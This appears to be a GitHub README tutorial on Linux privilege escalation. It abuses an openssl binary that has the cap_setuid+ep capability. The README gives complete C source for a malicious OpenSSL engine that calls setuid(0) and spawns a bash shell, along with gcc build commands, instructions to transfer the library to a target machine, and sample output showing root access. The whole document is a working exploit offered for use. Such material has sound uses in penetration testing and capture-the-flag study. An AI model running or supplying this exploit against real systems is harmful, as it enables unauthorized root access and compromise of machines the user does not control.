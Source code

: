 # All credit goes to chaudhary1337 
**check out the original post:**
https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

**---- *Modified by LV6LV* ----**

Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep 

Is there a way to become root from a normal user by using this? 
> yes... yes there is a way.

## Search all the binaries' capabilities using: 
```
getcap -r / 2>/dev/null.
```
> getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null

## To set a capability:
```
sudo setcap 'cap_setuid=+ep' <full path of binary>
```


If you see /usr/bin/openssl = cap_setuid+ep or /usr/bin/openssl = cap_setuid=ep , we are set for success.

## 1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use the following command to install requirements: 
```
sudo apt-get install libssl-dev
```

## 2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Check reference number 2  below for more information.

## 3. Compiling
Run the following:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
```
It is safe to ignore warnings below:

> implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]

> implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]

Next run:
```
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```
Resultant is the openssl-exploit-engine.so file.

## 4. Transfer the file to target machine
Once you have the file on the target machine, run the following command below.
```
openssl req -engine \<full path to openssl-exploit-engine.so file\>
```
**\* This command will fail if you do not use the full path to openssl-exploit-engine.so file.**

Sample output if openssl-exploit-engine.so is located in the /tmp directory
```
$ openssl req -engine /tmp/openssl-exploit-engine.so
# whoami
root
```
**Enjoy!**

## Common Errors
> fatal error: openssl/engine.h: No such file or directory #include <openssl/engine.h>
  
Fix by installing libssl-dev (sudo apt-get install libssl-dev)

## 7. References

1. Read up more on capabilities. 
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities
2. OpenSSL building a useless engine
  https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
3. How to use the library load feature OpenSSL
  https://gtfobins.github.io/gtfobins/openssl/#library-load
